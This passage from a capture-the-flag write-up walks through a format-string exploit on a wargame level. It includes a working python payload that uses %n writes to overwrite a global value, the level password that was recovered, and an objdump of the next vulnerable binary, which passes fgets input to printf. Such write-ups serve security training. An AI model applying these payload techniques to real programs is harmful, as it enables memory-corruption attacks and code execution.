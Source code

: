 As we can see, we are able to nail the `44` and `55` requirement. However, we cant use the say way to do `02` and `01`, since the values printed by **%n can only increase**.
![image](https://hackmd.io/_uploads/BkRWW2YBp.png)

To circumvent this, we can **"wrap" the two values together** to one. Making out mapping change like so. 
```
0x08049810 - 0x44
0x08049811 - 0x55
0x08049812 - 0x102
```

Which changes the input to - 
`python -c "print '\x08\x04\x98\x10'[::-1] + '\x08\x04\x98\x11'[::-1] + '\x08\x04\x98\x12'[::-1] + 'B' * 56 + '%12\$n' + 'B' * 17 + '%13\$n' + 'B' * 173 + '%14\$n'"> /tmp/level4`

And there we have it, the final value of the global static.
![image](https://hackmd.io/_uploads/HJD-r2YrT.png)

The password was printed on execution.
`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

## level5 
Below is an objdump for the level5 program.
```
080484a4 <o>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       83 ec 18                sub    esp,0x18
 80484aa:       c7 04 24 f0 85 04 08    mov    DWORD PTR [esp],0x80485f0
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:       55                      push   ebp
 80484c3:       89 e5                   mov    ebp,esp
 80484c5:       81 ec 18 02 00 00       sub    esp,0x218
 80484cb:       a1 48 98 04 08          mov    eax,ds:0x8049848
 80484d0:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484d4:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484db:       00
 80484dc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484e2:       89 04 24                mov    DWORD PTR [esp],eax
 80484e5:       e8 b6 fe ff ff          call   80483a0 <fgets@plt>
 80484ea:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484f0:       89 04 24                mov    DWORD PTR [esp],eax
 80484f3:       e8 88 fe ff ff          call   8048380 <printf@plt>
 80484f8:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484ff:       e8 cc fe ff ff          call   80483d0 <exit@plt>

08048504 <main>:
 8048504:       55                      push   ebp
 8048505:       89 e5                   mov    ebp,esp
 8048507:       83 e4 f0                and    esp,0xfffffff0
 804850a:       e8 b3 ff ff ff          call   80484c2 <n>
 804850f:       c9                      leave
 8048510:       c3                      ret
 8048511:       90                      nop
 8048512:       90                      nop
 8048513:       90                      nop
 8048514:       90                      nop
 8048515:       90                      nop
 8048516:       90                      nop
```